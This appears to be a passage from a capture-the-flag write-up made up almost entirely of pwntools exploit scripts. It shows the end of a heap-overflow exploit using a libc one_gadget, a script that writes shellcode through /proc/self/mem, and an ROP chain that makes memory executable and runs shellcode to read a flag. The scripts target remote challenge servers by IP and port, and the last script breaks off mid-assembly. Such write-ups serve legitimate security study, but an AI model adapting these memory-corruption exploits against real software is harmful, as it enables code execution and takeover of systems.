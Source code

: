 ```python=
for i in range(6,-1, -1):
    edit(3, 'A'*(0x88+i) + p64(0x71) )
    copy(3, 4)
create(0x60)
create(0x60)

one_gadget = libc+0x4f322
edit(5, 'A'*0x13 + p64(one_gadget))
delete(0)
create(0)

r.interactive()
```

### ABW
```python=
from pwn import *
context.arch = "amd64"

r  = remote("34.82.101.212", 10010)

r.sendlineafter(":","/proc/self/mem")
r.sendlineafter(":",str(0x4b0f40))
payload = asm("""
push rax
pop rdi
push rsp
pop rsi
push 0x60
pop rdx
syscall
ret
""")
print len(payload)
r.sendlineafter(":",payload.encode("hex"))
r.send(p64(0x0000000000421872)+p64(0x4112af)+p64(0x41f4e0))
r.interactive()
```

### APP
```python=
from pwn import *
context.arch = "amd64"
#r = process('./run.sh')
r  = remote("34.82.101.212", 10011)
#0x0000000000474a05: syscall; ret;
#0x000000000044b9d9: pop rdx; pop rsi; ret;
#0x0000000000415234: pop rax; ret;
#0x0000000000400686: pop rdi; ret;
#0x000000000043ff98: add al, 7; ret;
payload = "a"*0x108

payload += flat(
0x415234,3,0x43ff98,0x400686,0x006b6000,0x44b9d9,0x7,0x6000,0x474a05,
0x415234,0,0x400686,0,0x44b9d9,0x1000,0x006b6000,0x474a05,0x006b6000
)

r.sendline(payload)
r.send(asm(shellcraft.cat("flag1")+
shellcraft.pushstr("Joker")+
"""
mov rax,319
mov rdi,rsp
```